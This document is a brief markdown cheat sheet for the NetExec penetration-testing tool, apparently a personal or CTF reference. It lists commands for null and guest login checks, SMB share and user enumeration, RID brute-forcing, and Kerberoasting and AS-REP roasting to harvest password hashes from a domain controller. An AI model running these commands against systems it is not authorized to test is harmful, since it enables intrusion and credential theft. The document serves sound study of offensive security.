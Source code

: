 Netexec is a powerful tool often used for exploitation in Active Directory Environments, though it can broadly be used against most windows targets.

## Installation
```bash
sudo apt install pipx git  
pipx ensurepath  
pipx install git+https://github.com/Pennyw0rth/NetExec
```
## Testing Authentication

```bash
# Guest Login
netexec smb target -u 'guest' -p ''

# Null Login
netexec smb target -u '' -p ''

# Local Authentication
netexec smb target -u username -p password --local-auth
```

## SMB
NetExec can be used to enumerate and exploit SMB.
```bash
# List Shares
netexec smb target -u '' -p '' --shares  

# Enumerate Information
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol


```

## Kerberoast and ASREPRoast
```bash
# Kerberoast, target must be DC
netexec ldap target -u username -p password --kerberoasting hash.txt  

# ASREP-Roast, target must be DC
netexec ldap target -u username -p password --asreproast hash.txt
```

## Resources
https://seriotonctf.github.io/2024/03/07/CrackMapExec-and-NetExec-Cheat-Sheet/